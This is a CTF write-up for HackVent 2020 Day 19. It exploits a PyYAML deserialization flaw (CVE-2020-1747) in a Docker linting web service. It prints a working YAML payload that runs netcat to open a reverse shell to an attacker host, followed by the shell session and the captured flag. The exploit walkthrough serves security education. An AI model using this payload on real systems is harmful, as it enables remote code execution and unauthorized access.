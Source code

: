 [← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)


# Day 19 / HV20.19 Docker Linter Service


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: The Compiler ([@the_compiler](https://twitter.com/the_compiler), 
                        <https://bruhin.software/>)
* Tags:   #web-security #exploitation
* Level:  hard

Docker Linter is a useful web application ensuring that your Docker-related
files follow best practices. Unfortunately, there's a security issue in there...

### Requirements

This challenge requires a reverse shell. You can use the provided Web Shell or
the VPN to solve this challenge (see `RESOURCES` on top).

### Resources

* Web Shell v. 2
* Docker Linter Service
* Student VPN instructions



## Solution

Here is a screenshot of the _Docker Linter Service_:

![](screenshot_docker_linter.png)

The web service allowed you to upload different kind of docker files in order
to lint them. Posting an arbitrary string like `ladida` instead of an actual
docker file was enough to get a list of the involved tools and libraries:

* `Dockerfile`
    * `hadolint`
    * `dockerfile_lint`
    * `dockerlint.js`

* `docker-compose.yml`
    * `Basic syntax check`
    * `yamllint`
    * `docker-compose`

* `.env files`
    * `dotenv-linter`

After a lot of trial and error attacking the python YAML implementation turned
out to be the right way. There is a [PoC (CVE-2020-1747)]() available about it.

[PoC (CVE-2020-1747)]: https://2130706433.net/blog/pyyaml/

The attack works by exploiting a deserialization vulnerability in the PyYAML
library which allows arbitrary code execution and thus including setting up a
reverse shell.

The payload was constructed according to the [script gist]() available on the same
webpage as the PoC and a [cheat sheet kinda resource for reverse shells]():

[script gist]: https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1
[cheat sheet kinda resource for reverse shells]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

```python
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('nc 10.13.0.6 4242 -e /bin/sh')"
```

![](screenshot_payload.png)

On the other end there was a VM connected via a VPN and listening for an
incoming connection on port 4242:

```sh
# nc -l -p 4242
echo ""; ls

app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates

cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```

--------------------------------------------------------------------------------

Flag: `HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`

[← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)
